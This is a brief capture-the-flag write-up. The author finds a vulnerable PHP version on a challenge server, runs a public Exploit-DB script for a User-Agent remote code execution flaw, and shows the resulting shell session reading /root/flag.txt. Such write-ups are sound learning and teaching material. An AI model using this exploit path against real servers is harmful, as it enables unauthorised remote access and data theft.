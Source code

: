 ## challenge description
![[Screenshot_20230725_010726.png]]

### lets explore 

##### we have only one single page nothing in robots.txt ethier 
![[Screenshot_20230725_010925.png]]

##### lets try the repeater  , the first thing my eye saw was the PHP version 
![[Screenshot_20230725_011132.png]]

##### i searched for this version and it was vulnerable to user-agent RCE  

##### i used a script in exploit db [script](https://www.exploit-db.com/exploits/49933)

```
python3 49933.py    
Enter the full host url:  
http://139.144.184.115:8989/  
  
Interactive shell is opened on http://139.144.184.115:8989/    
Can't acces tty; job crontol turned off.  
$ ls  
index.php  
  
$ ls /  
bin  
boot  
dev  
etc  
home  
lib  
lib64  
media  
mnt  
opt  
proc  
root  
run  
sbin  
srv  
sys  
tmp  
usr  
var  
  
$ ls /root  
flag.txt  
  
$ cat /root/flag.txt  
BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}
```

### Easy one